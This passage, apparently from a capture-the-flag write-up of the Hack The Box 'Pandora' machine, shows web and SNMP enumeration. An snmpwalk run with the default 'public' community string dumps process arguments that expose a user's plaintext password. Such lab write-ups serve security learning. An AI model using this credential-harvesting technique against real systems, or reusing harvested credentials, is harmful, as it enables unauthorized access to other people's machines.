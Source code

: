 ## Web Enumeration ⤵️

I checked port 80 and I got this `panda.htb` site so I set the `/etc/hosts` file →

![Untitled](Pandora/Untitled.png)

## SNMP Enumeration ⤵️

I got port 161 open as UDP port so lets enumerate it with this command lets see I will get something through this →

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Pandora]
└─$ snmpwalk -c public -v1 -t 10 panda.htb
iso.3.6.1.2.1.1.1.0 = STRING: "Linux pandora 5.4.0-91-generic #102-Ubuntu SMP Fri Nov 5 16:31:28 UTC 2021 x86_64"
iso.3.6.1.2.1.1.2.0 = OID: iso.3.6.1.4.1.8072.3.2.10
iso.3.6.1.2.1.1.3.0 = Timeticks: (624771) 1:44:07.71
iso.3.6.1.2.1.1.4.0 = STRING: "Daniel"
iso.3.6.1.2.1.1.5.0 = STRING: "pandora"
iso.3.6.1.2.1.1.6.0 = STRING: "Mississippi"
iso.3.6.1.2.1.1.7.0 = INTEGER: 72
iso.3.6.1.2.1.1.8.0 = Timeticks: (98) 0:00:00.98
iso.3.6.1.2.1.1.9.1.2.1 = OID: iso.3.6.1.6.3.10.3.1.1
iso.3.6.1.2.1.1.9.1.2.2 = OID: iso.3.6.1.6.3.11.3.1.1
iso.3.6.1.2.1.1.9.1.2.3 = OID: iso.3.6.1.6.3.15.2.1.1
iso.3.6.1.2.1.1.9.1.2.4 = OID: iso.3.6.1.6.3.1
iso.3.6.1.2.1.1.9.1.2.5 = OID: iso.3.6.1.6.3.16.2.2.1
iso.3.6.1.2.1.1.9.1.2.6 = OID: iso.3.6.1.2.1.49
iso.3.6.1.2.1.1.9.1.2.7 = OID: iso.3.6.1.2.1.4
iso.3.6.1.2.1.1.9.1.2.8 = OID: iso.3.6.1.2.1.50
iso.3.6.1.2.1.1.9.1.2.9 = OID: iso.3.6.1.6.3.13.3.1.3
iso.3.6.1.2.1.1.9.1.2.10 = OID: iso.3.6.1.2.1.92
iso.3.6.1.2.1.1.9.1.3.1 = STRING: "The SNMP Management Architecture MIB."
iso.3.6.1.2.1.1.9.1.3.2 = STRING: "The MIB for Message Processing and Dispatching."
iso.3.6.1.2.1.1.9.1.3.3 = STRING: "The management information definitions for the SNMP User-based Security Model."
iso.3.6.1.2.1.1.9.1.3.4 = STRING: "The MIB module for SNMPv2 entities"
iso.3.6.1.2.1.1.9.1.3.5 = STRING: "View-based Access Control Model for SNMP."
iso.3.6.1.2.1.1.9.1.3.6 = STRING: "The MIB module for managing TCP implementations"
iso.3.6.1.2.1.1.9.1.3.7 = STRING: "The MIB module for managing IP and ICMP implementations"
iso.3.6.1.2.1.1.9.1.3.8 = STRING: "The MIB module for managing UDP implementations"
iso.3.6.1.2.1.1.9.1.3.9 = STRING: "The MIB modules for managing SNMP Notification, plus filtering."
iso.3.6.1.2.1.1.9.1.3.10 = STRING: "The MIB module for logging SNMP Notifications."
iso.3.6.1.2.1.1.9.1.4.1 = Timeticks: (97) 0:00:00.97
iso.3.6.1.2.1.1.9.1.4.2 = Timeticks: (97) 0:00:00.97
iso.3.6.1.2.1.1.9.1.4.3 = Timeticks: (97) 0:00:00.97
...
...
iso.3.6.1.2.1.25.4.2.1.5.692 = ""
iso.3.6.1.2.1.25.4.2.1.5.714 = ""
iso.3.6.1.2.1.25.4.2.1.5.715 = ""
iso.3.6.1.2.1.25.4.2.1.5.759 = ""
iso.3.6.1.2.1.25.4.2.1.5.770 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.772 = STRING: "--system --address=systemd: --nofork --nopidfile --systemd-activation --syslog-only"
iso.3.6.1.2.1.25.4.2.1.5.782 = STRING: "-f"
iso.3.6.1.2.1.25.4.2.1.5.790 = STRING: "-c sleep 30; /bin/bash -c '/usr/bin/host_check -u daniel -p HotelBabylon23'"
iso.3.6.1.2.1.25.4.2.1.5.797 = STRING: "--foreground"
iso.3.6.1.2.1.25.4.2.1.5.802 = STRING: "/usr/bin/networkd-dispatcher --run-startup-triggers"
iso.3.6.1.2.1.25.4.2.1.5.808 = STRING: "-n -iNONE"
iso.3.6.1.2.1.25.4.2.1.5.811 = ""
```